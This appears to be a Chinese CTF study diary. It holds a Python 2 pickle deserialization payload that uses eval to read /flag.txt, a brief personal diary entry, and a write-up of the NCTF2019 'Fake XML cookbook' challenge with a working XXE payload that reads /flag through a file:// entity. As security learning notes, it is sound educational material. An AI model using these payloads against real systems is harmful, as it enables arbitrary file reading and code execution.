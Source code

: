    先看脚本：

   ```python
   # 这里要用py2；python3和python2用的协议不同（py3用3号，py2用0号）
   import pickle
   import urllib
   
   class payload(object):
       def __reduce__(self):
          return (eval, ("open('/flag.txt','r').read()",))
   
   a = pickle.dumps(payload())
   a = urllib.quote(a)
   print a
   ```

   将sheng生成的payload传入即可得到flag
   ![](https://i.loli.net/2021/07/27/Y1gaTpwcK27xIqj.png)

   [python 反序列化 ~ Misaki's Blog (misakikata.github.io)](https://misakikata.github.io/2020/04/python-反序列化/)
   [[CISCN2019 华北赛区 Day1 Web2\]ikun - 春告鳥 - 博客园 (cnblogs.com)](https://www.cnblogs.com/Cl0ud/p/12177062.html)
   [Python魔法方法指南_宇宙浪子的专栏-CSDN博客_python 魔法方法](https://blog.csdn.net/bluehawksky/article/details/79027055)



## 2021.7.29

考完试拉，校选也搞定了；
哈哈今天在校选课老师给看奥运直播，马龙和奥恰打的难解难分，比分让人窒息，但最后赢的时候更是激动人心；老师人也好好，最后总结也颇有感慨吧，最近琐事很多，一步一脚印吧。
算是告一段落，又刷题先
今天看两题xml的题目学习一下

[从XML相关一步一步到XXE漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6887)

[一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3357)

### [NCTF2019]Fake XML cookbook——XXE

进去是登录框，右键源代码可以看到如下：![](https://i.loli.net/2021/07/29/8cg3SDZnwlVrUKv.png)

抓包，明显的xml实体，利用xml存储username和password
![](https://i.loli.net/2021/07/29/GjWiXBg3YQzy1v9.png)

因为没有任何过滤，xxe注入，使用file协议根据源码读flag即可
PS：这里的username=`&file`对应`<!ENTITY file SYSTEM "file:///flag">`里的实体名file
（`&xxx`表示在xml文档中引用；而`%xxx`是在DTDT中引用，那篇文章都有）

```xml-dtd
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE hhh [
    <!ENTITY file SYSTEM "file:///flag">
]>
<user><username>&file;</username><password>123</password></user>
```
